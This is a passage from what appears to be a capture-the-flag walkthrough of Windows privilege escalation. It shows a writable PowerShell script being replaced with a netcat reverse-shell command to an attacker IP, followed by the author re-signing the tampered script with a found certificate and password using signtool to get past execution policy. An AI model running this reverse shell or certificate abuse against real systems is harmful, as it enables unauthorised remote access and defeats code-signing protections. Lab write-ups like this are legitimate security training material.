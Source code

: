 We have the permissions to modify this script, so let's try replacing the contents to execute netcat which is the Bginfo64.exe

```powershell
Start-Process -FilePath "C:\Share\Bginfo64.exe" -ArgumentList "10.10.16.20 7777 -e powershell.exe"
```

<img src="https://i.imgur.com/x4fVtLM.png"/>

Right now, this script isn't signed, so it can't be run on the system

<img src="https://i.imgur.com/N0xvSPh.png"/>

We can sign this powershell script with 

```powershell
$CertPath ="C:\Get-bADpasswords\cert.pfx"
$CertPass = "abceasyas123"
$Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2($CertPath, $CertPass)
Set-AuthenticodeSignature -Certificate $Cert -FilePath C:\Get-bADpasswords\Get-bADpasswords.ps1
```

But it didn't work as the powershell was running in constrained mode

<img src="https://i.imgur.com/u62NXJO.png"/>

There's a tool to sign to sign the files called `signtool` 

https://docs.microsoft.com/en-us/windows/win32/seccrypto/signtool

Issue is that we can't download it directly, we need to install Windows Development kit, so I had to switch to my windows machine and install the developement kit only which is about 1.9 GB

<img src="https://i.imgur.com/sK4mDxj.png"/>

After installing the development kit, it should be in 

```
C:\Program Files (x86)\Windows Kits\10\bin\x64
```

<img src="https://i.imgur.com/DfrwhB6.png"/>

Transferred `signtool.exe` on the target machine and then ran the command to sign the script

https://www.praveenc.com/posts/code-signing-on-windows/

```powershell
.\signtool.exe sign /f C:\Users\ginawild\cert.pfx /p abceasyas123 C:\Users\ginawild\Get-bADpasswords.ps1


.\signtool.exe sign /f C:\Users\ginawild\cert.pfx /p abceasyas123 C:\Users\ginawild\Get-bADpasswords.ps1
```

<img src="https://i.imgur.com/TSkNw4c.png"/>
